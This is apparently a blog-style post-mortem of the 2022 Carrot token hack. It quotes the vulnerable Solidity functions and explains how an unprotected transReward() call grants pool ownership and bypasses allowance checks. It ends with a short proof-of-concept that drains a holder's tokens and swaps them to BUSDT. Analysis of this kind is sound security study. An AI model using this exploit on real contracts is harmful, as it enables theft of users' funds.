

# Carrot




## What's Carrot?
A rewards platform where users can earn bitcoin simply by supporting the brands and creators they love. Creators of all sorts
(writers, podcasters, open-source collectives...) can publish challenges to be carried out by their audiences and offer Bitcoin for their completion.

## Amount stolen
**$31,318 BUSDT**

2022-10-10

## Vulnerability
Insufficient access control


## Analysis

The Carrot token relies on `_allowances[sender][_msgSender()].sub(amount, "ERC20: transfer amount exceeds allowance")`
to prevent unapproved token transfers,

The `sub` function in the `beforetransfer` method will subtract the `amount` from the allowance. If the subtraction results
a value less than zero indicates that the transfer amount exceeds the allowance limit and will fail.

This pattern involves the **Action-Check** pattern, where you act first, in this case transferring tokens without explicitly checking for permission. 
And check afterwards, in the `sub` function on the allowances mapping.

This final check can be avoided if the `_msgSender()` on the `_isExcludedFromFee` mapping is set to true, 
giving the `_msgSender()` the ability to move any user's tokens at its will. 

```solidity
  function transferFrom(
    address sender,
    address recipient,
    uint256 amount
  ) public virtual override returns (bool) {
    _beforeTransfer(_msgSender(),recipient,amount);
    
    if(_isExcludedFromFee[_msgSender()]){
        _transfer(sender, recipient, amount);
        return true;
    }
    _transfer(sender, recipient, amount);
    _approve(
        sender,
        _msgSender(),
        _allowances[sender][_msgSender()].sub(
            amount,
            "ERC20: transfer amount exceeds allowance"
        )
    );
    return true;
  }
```

An address can be added to the `_isExcludedFromFee` mapping under the condition that the caller of a transfer is the owner of an 
external pool contract and the counter variable is set to 0. 
This counter variable serves as a safety measure, preventing any other party from adding their address after an exploit has executed this action.


```solidity
   function _beforeTransfer( address from,address to,uint256 amount) private{
  if(from.isContract())
  if(ownership(pool).owner() == from && counter ==0){
      _isExcludedFromFee[from] = true;
      counter++;
  }          
  _beforeTokenTransfer(from, to, amount);
}
```

The Pool address is set via the `onlyOwner initPool()` function on the token.

- To pass the `onlyOwner` check, we can gain acces of the contract by the following function:


```solidity
   function transReward(bytes memory data) public {
      pool.functionCall(data);
   }
```

It seems that the function lacks access control and is public for everyone. For the concluding step, the ownership of the pool contract is established by calling the `transReward()` function on the token with the selector `"0xbf699b4b"`, which in English is the "change 
owner" function and the desired address is specified as `"0x5575406ef6b15eec1986c412b9fbe144522c45ae"`.


# proof of concept (PoC)

```solidity
  // Call vulnerable transReward() to set this contract as owner. No auth control
  CARROT_TOKEN.transReward(abi.encodeWithSelector(0xbf699b4b, address(this)));
  
  // Call transferFrom() to steal CARROT tokens using the same amount used in the exploit
  CARROT_TOKEN.transferFrom(
      0x00B433800970286CF08F34C96cf07f35412F1161, address(this), 310_344_736_073_087_429_864_760
  );
  
  // Swap all stolen Carrot to BUSDT
  _CARROTToBUSDT();
```

**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/Carrot_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
